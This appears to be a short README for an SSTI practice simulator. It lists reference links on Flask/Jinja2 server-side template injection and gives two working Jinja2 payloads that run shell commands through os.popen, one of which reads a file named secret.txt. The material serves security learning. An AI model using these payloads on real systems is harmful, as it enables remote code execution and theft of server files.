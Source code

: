 # ssti_simulator helpful links and example payload

## Remote Code Execution through SSTI `request.application`
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('cat secret.txt').read() }}  

## SSTI Cheat Sheet
https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti

## Python MRO explained
https://www.educative.io/edpresso/what-is-mro-in-python

## Python Flask Documentation
https://flask.palletsprojects.com/en/1.1.x/quickstart/

## Jinja2 Documentaion
https://jinja.palletsprojects.com/en/3.0.x/
